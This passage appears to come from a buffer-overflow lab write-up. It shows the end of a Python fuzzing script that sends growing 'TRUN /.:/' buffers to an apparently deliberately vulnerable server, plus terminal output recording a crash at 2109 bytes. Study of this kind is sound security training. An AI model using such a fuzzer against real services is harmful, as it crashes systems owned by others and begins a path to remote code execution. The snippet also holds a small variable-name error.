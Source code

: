 ```python
        s.send(b"TRUN /.:/%s \r\n" % buffer)
        offset += 100
        sleep(1)
    except RuntimeError as Err:
        print(f'[!] Unable to connect to the application. {err}')
        sys.exit(0)
    finally:
        s.close()
```

When we run this python script it will run until we send over a buffer large enough where it breaks. In this case the program crashed at a buffer of 2109 bytes (`TRUN /.:/ + 'A'*2100`).

```bash
root@kali:/mnt/hgfs/_shared_folder/BO python3 trun_1.py
[+] Sending buffer: 109 bytes
[+] Sending buffer: 209 bytes
[+] Sending buffer: 309 bytes
[+] Sending buffer: 409 bytes
[+] Sending buffer: 509 bytes
[+] Sending buffer: 609 bytes
[+] Sending buffer: 709 bytes
[+] Sending buffer: 809 bytes
[+] Sending buffer: 909 bytes
[+] Sending buffer: 1009 bytes
[+] Sending buffer: 1109 bytes
[+] Sending buffer: 1209 bytes
[+] Sending buffer: 1309 bytes
[+] Sending buffer: 1409 bytes
[+] Sending buffer: 1509 bytes
[+] Sending buffer: 1609 bytes
[+] Sending buffer: 1709 bytes
[+] Sending buffer: 1809 bytes
[+] Sending buffer: 1909 bytes
[+] Sending buffer: 2009 bytes
[+] Sending buffer: 2109 bytes
[!] Unable to connect to the application.
```
